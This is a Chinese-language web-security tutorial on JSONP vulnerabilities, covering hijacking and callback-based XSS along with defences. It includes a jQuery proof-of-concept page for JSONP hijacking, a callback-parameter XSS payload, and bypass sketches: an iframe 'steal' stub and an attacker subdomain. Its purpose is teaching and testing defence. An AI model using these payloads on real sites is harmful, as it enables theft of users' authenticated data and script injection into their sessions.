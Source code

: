 JSONP 漏洞
====================

基本概念
--------

什么是 JSONP？
~~~~~~~~~~~~~~
JSONP (JSON with Padding) 是一种用于解决浏览器同源策略限制的跨域数据获取技术。其核心原理是利用 ``<script>`` 标签不受同源策略限制的特性，通过动态创建脚本标签从不同域获取 JSON 数据。

工作流程
^^^^^^^^
+ 1. 客户端定义回调函数: ``function handleData(data) { ... }``
+ 2. 创建动态脚本标签: ``<script src="https://api.example.com/data?callback=handleData">``
+ 3. 服务端返回包装后的数据: ``handleData({"user":"admin","email":"admin@example.com"});``
+ 4. 客户端自动执行回调函数处理数据

漏洞原理
--------

核心安全问题-设计特性
~~~~~~~~~~~~~~~~~~~~~
+ 1. 自动携带凭据
	- 浏览器会在 JSONP 请求中自动发送目标域的 Cookies
	- 包括身份验证会话 (Session ID)

+ 2. 缺乏内置安全机制
	- 无 CORS 式的源验证
	- 依赖开发者手动实现安全控制

+ 3. 动态脚本执行
	- 服务端响应作为脚本直接执行
	- 允许攻击者控制回调函数

漏洞利用场景
------------

攻击类型 1: JSONP 劫持
~~~~~~~~~~~~~~~~~~~~~~~

攻击步骤
^^^^^^^^
+ 常见接口
	::
	
		callback=attack
		cb=attack
		call=attack
		jsonp=attack
		jsonpcallback=attack
		jsonpcb=attack
		json=attack
		jsoncallback=attack
		jcb=attack

+ 示例
	- 接口: ``http://www.xxx.com/interface?callback=attack``
	- 返回数据: ``attack({"value":1})``
+ 构造POC
	::
	
		<!DOCTYPE html>
		<html lang="en">
		<head>
			<meta charset="UTF-8">
			<title>jsonp劫持</title>
			<script src="js/jquery.min.js"></script>
		</head>
		<body>
		<script type="text/javascript">
			$.ajax({
				url:"http://xxx.com/interface",
				dataType:"jsonp",
				jsonp:"callback",
				jsonpCallback:"attack",
				success:function (data) {
					alert(data.value)
				}
			})
		</script>
		</body>
		</html>
		
		注意：
		jquery.min.js需要在https://jquery.com官网下载，放在当前js目录下
		jsonp 填写回调参数的名字
		jsonpcallback 就是回调参数的值
		alert 的地方根据需要更改取值
		如果能正常取到值，就说明漏洞存在了

攻击类型 2: JSONP XSS
~~~~~~~~~~~~~~~~~~~~~
当回调函数名未过滤时，可注入任意代码::

  https://victim.com/api?callback=alert(document.domain)//

服务端返回::

  alert(document.domain)//({"data": "value"});

导致 XSS 漏洞执行

现代浏览器防护
--------------

安全改进措施
~~~~~~~~~~~~

+----------------------+-----------------------------------------------+
| 防护机制             | 防护效果                                      |
+======================+===============================================+
| Strict Referer Policy| 跨域请求时移除 URL 路径和参数                 |
+----------------------+-----------------------------------------------+
| Default CORS         | 成为跨域请求标准解决方案                      |
+----------------------+-----------------------------------------------+
| Content-Type 校验    | 阻止浏览器将响应解析为脚本                    |
+----------------------+-----------------------------------------------+

绕过技术示例
~~~~~~~~~~~~~
1. 空 Referer 利用::

    <iframe src="javascript:'<script>function steal(){...}</script><script src=...></script>'"></iframe>

2. 宽松正则绕过::

    合法域名: api.example.com
    绕过域名: api.attacker.example.com

3. 子域接管攻击

防御措施
--------

服务器端防护
~~~~~~~~~~~~
.. code-block:: python

    # 严格 Referer 检查
    valid_domains = ['https://trusted.com', 'https://app.trusted.com']
    if request.headers.get('Referer') not in valid_domains:
        return Response("Forbidden", status=403)

    # 回调函数名过滤
    import re
    callback = request.args.get('callback', '')
    if not re.match(r'^[a-zA-Z0-9_\.]+$', callback):
        return Response("Invalid callback", status=400)

客户端防护
~~~~~~~~~~
1. 弃用 JSONP，改用 CORS::

    // 服务端设置
    Access-Control-Allow-Origin: https://trusted.com
    Access-Control-Allow-Credentials: true

2. 敏感操作使用 POST + CSRF Token

漏洞验证工具
------------
.. list-table:: JSONP 测试工具
   :header-rows: 1

   * - 工具名称
     - 用途
   * - Burp Suite
     - 自动检测 JSONP 端点
   * - JSONP Hunter
     - 自动化漏洞验证
   * - Custom Script
     - 手动验证回调控制

.. code-block:: bash

    # 使用 curl 测试
    curl -I "https://victim.com/api?callback=test"
    # 检查响应头中是否存在安全控制
    常见的CORS响应头及其作用：
    Access-Control-Allow-Origin ：指明哪些源可以访问资源。如果该头的值设置为 * ，则允许所有源访问资源，但不包括携带凭证（如cookies）的请求。
    Access-Control-Allow-Methods ：指明服务器支持的跨域请求方法，如 GET 、 POST 等。
    Access-Control-Allow-Headers ：指明哪些自定义头字段是允许的。
    Access-Control-Allow-Credentials ：当设置为 true 时，表明浏览器可以携带凭证信息（如cookies）进行跨源请求。
    Access-Control-Expose-Headers ：指示哪些响应头可以被浏览器读取

结论
----
+ 1. JSONP 漏洞在 **2025 年仍然存在**，但主要影响：
	- 未实施正确防护的遗留系统
	- 实现存在缺陷的新系统
+ 2. 现代浏览器默认安全策略已大幅降低攻击成功率
+ 3. 推荐解决方案：
	- 新系统使用 CORS 替代 JSONP
	- 旧系统强化 Referer 检查和回调过滤
	- 敏感数据接口禁用 JSONP

参考资源
--------
- OWASP JSONP 安全指南: https://owasp.org/jsonp
- CORS vs JSONP 对比: https://web.dev/cors-vs-jsonp